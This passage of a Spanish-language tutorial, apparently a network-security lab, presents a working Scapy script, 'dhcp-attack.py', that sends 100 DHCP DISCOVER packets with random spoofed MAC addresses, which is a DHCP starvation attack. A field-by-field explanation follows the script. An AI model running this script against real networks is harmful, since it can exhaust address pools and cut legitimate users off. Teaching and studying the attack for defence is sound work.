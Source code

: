 `Scapy` es una potente librería de Python para manipulación de paquetes de red, ideal para operaciones relacionadas con la red.

### 2\. Creación del Script de Ataque (`dhcp-attack.py`)

Se crea un archivo Python para generar y enviar las peticiones DHCP `DISCOVER` con direcciones MAC falsas.

```python
from scapy.all import *
import random

def random_mac():
    mac = [ 0x00, 0x16, 0x3e, # Common OUI for virtual devices
            random.randint(0x00, 0x7f),
            random.randint(0x00, 0xff),
            random.randint(0x00, 0xff) ]
    return ':'.join(map(lambda x: "%02x" % x, mac))

def dhcp_discover():
    conf.checkIPaddr = False # Disable IP address checking in scapy
    for i in range(100): # Send 100 DHCP Discover packets
        fake_mac = random_mac()
        # Ethernet header: Broadcast destination MAC
        # IP header: Source 0.0.0.0 (unassigned), Destination 255.255.255.255 (broadcast)
        # UDP header: Source port 68 (DHCP client), Destination port 67 (DHCP server)
        # BOOTP header: Client MAC address (chaddr) set to fake_mac
        # DHCP header: Message type set to Discover
        dhcp_discover_packet = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0", dst="255.255.255.255")/UDP(sport=68, dport=67)/BOOTP(chaddr=mac2str(fake_mac))/DHCP(options=[("message-type","discover"),"end"])
        sendp(dhcp_discover_packet)
        print(f"Sent DHCP Discover with MAC: {fake_mac}")

dhcp_discover()
```

  * `from scapy.all import *` e `import random`: Importa las librerías necesarias.
  * `random_mac()`: Esta función genera direcciones MAC aleatorias. Comienzan con `00:16:3e`, un OUI (Organizationally Unique Identifier) común para dispositivos virtuales, y los últimos tres octetos se generan aleatoriamente.
  * `dhcp_discover()`:
      * `conf.checkIPaddr = False`: Desactiva la comprobación de la dirección IP en Scapy (configuración interna).
      * `for i in range(100)`: Un bucle que genera y envía 100 paquetes DHCP `DISCOVER`.
      * `Ether(dst="ff:ff:ff:ff:ff:ff")`: Crea un encabezado Ethernet con la dirección MAC de destino en broadcast.
      * `IP(src="0.0.0.0", dst="255.255.255.255")`: Establece las direcciones IP de origen (no asignada) y destino (broadcast) para el paquete IP.
      * `UDP(sport=68, dport=67)`: Define los puertos UDP de origen (cliente DHCP) y destino (servidor DHCP).
      * `BOOTP(chaddr=mac2str(fake_mac))`: Configura la dirección MAC del cliente (`chaddr`) en el encabezado BOOTP con la MAC falsa generada.
      * `DHCP(options=[("message-type","discover"),"end"])`: Especifica que el paquete es un mensaje DHCP `DISCOVER`.
      * `sendp(dhcp_discover_packet)`: Envía el paquete.
      * `print(...)`: Imprime un mensaje por cada paquete enviado.
